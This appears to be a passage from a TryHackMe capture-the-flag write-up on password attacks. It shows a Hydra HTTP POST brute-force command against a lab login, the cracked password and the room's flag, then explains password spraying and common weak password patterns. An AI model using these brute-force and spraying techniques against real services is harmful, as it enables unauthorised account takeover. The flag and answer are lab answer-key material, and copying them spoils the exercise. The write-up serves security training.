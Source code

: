 #### Login-Post

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250512182539.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250512182604.png)

Based on the same stuff as before, we need to submit the request to our proxy and simply build the command, for the sake of time, I'll simply provide the hydra command:

```
hydra -l burgess -P clinic-rule-wordlist.lst IP http-post-form "/login-post/index.php:username=burgess&password=^PASS^:S=logout.php"
```

After running the command, we will get:

```
OxytocinnicotyxO
```

If we login, we can see the flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250512182630.png)

```
THM{f8e3750cc0ccbb863f2706a3b2933227}
```

## Password spray attack

***

This task will teach the fundamentals of a password spraying attack and the tools needed to perform various attack scenarios against common online services.

Password Spraying is an effective technique used to identify valid credentials. Nowadays, password spraying is considered one of the common password attacks for discovering weak passwords. This technique can be used against various online services and authentication systems, such as SSH, SMB, RDP, SMTP, Outlook Web Application, etc. A brute-force attack targets a specific username to try many weak and predictable passwords. While a password spraying attack targets many usernames using one common weak password, which could help avoid an account lockout policy. The following figure explains the concept of password spraying attacks where the attacker utilizes one common password against multiple users.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/17bdbbc66c5924d99823be70e98832ed.png)

Common and weak passwords often follow a pattern and format. Some commonly used passwords and their overall format can be found below.

* The current season followed by the current year (SeasonYear). For example, **Fall2020**, **Spring2021**, etc.
* The current month followed by the current year (MonthYear). For example, **November2020**, **March2021**, etc.
* Using the company name along with random numbers (CompanyNameNumbers). For example, TryHackMe01, TryHackMe02.
